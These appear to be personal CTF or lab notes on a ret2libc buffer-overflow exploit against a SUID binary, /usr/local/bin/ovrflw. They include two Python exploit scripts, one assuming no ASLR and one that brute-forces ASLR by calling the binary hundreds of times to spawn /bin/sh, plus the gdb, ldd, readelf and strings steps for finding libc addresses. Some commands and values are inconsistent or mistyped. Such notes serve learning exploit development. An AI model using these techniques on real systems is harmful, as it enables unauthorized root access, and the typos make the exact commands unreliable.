

Web:
Can do enumeration on open source software to help identify readme or license files that have changed, and you can better identify target software versions to see if they are vulnerable
Exploit dev...mimic the target system as close as possible, ie same release, same arch, etc when developing exploits
ldd to check for ASLR
Note: this exploit works because the binary in question /usr/local/bin/ovrflw has a buffer overflow vulnerability AND it's a SUID binary
-------------------------------------------------------------------------------------------
Need the memory address of system. 'p system' using peda in gdb while debugging the following C code:
#include <stdlib.h>
void main() {
system("/bin/sh");
}
-------------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------------
python code for RET2LIBC version 1 (no ASLR):
import struct
system_addr = struct.pack("<I",0xb7e55310) #address of system in libc, while debugging target program, 'p system'
exit_addr = struct.pack("<I",0xd3adc0d3) #can choose to point to something, while debugging target program, 'p exit' for example (0xb7e48260)
arg_addr = struct.pack("<I",0xb7f7584c)
buf = "A" * 112
#buf += struct.pack("<I",0xd3adc0d3) # the "< I" is for little endian (it's an i) (d3adc0d3 is leet for deadcode)
# this is only for ensuring we are overwriting correct EIP
buf += system_addr
buf += exit_addr
buf += arg_addr
-------------------------------------------------------------------------------------------
Thought process for RET2LIBC (at least in this example).
# for i in `seq 0 20`; do ldd ovrfl | grep libc; done
Notice that the first 2 bytes and the last 3 bytes of the address don't change much. The 3rd byte rarely changes, and typically is one of two values (50/50 chance). With 2 bytes always changing, there are roughly 16 * 16 = 256 possible values for the bytes that are always changing. This is brute forcing ASLR. Brute forcing doesn't work when the program crashes (and you don't have a chance to restart it), but will work for this case.
On the target victim machine:
for i in `seq 0 20`; do ldd ovrl | grep libc; done
0xb75e0000
0xb7589000
0xb763d000
0xb75f8000
Note the addresses
We will also have to calculate the exit addr and the arg addr. This can be done using offsets. Can use readelf to help identify offsets.
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system

$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit

Use strings to obtain command to run and it's address
$ strings -a -t -x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh

Can pad with 0 at front
Edit buf.py:
-------------------------------------------------------------------------------------------
python code for RET2LIBC version 2 (with ASLR bruteforce):
from subprocess import call # to call victim program
import struct
libc_base_addr = 0xb75e000 #obtained from random pick of ldd results
system_offset = 0x00040310 #obtained from `readelf `
exit_offset = 0x00033260 #doesn't "really" matter though, obtained from `readelf`
arg_offset = 0x00162bac #first bytes padded. /bin/sh, obtained from `strings `
system_addr = struct.pack("<I",libc_base_addr+system_offset) #address of system in libc+off, will 'eventually' hit this address
exit_addr = struct.pack("<I",libc_base_addr+exit_offset) #address of libc+exit off
arg_addr = struct.pack("<I",libc_base_addr+arg_offset) #address of libc+arg off
buf = "A" * 112
buf += system_addr
buf += exit_addr
buf += arg_addr
i = 0
while (i < 512):
print "Try: %s" % i
i += 1
ret = call(["/usr/local/bin/ovrflw", buf])
-------------------------------------------------------------------------------------------
Now, we can call this program 500ish times until we are successful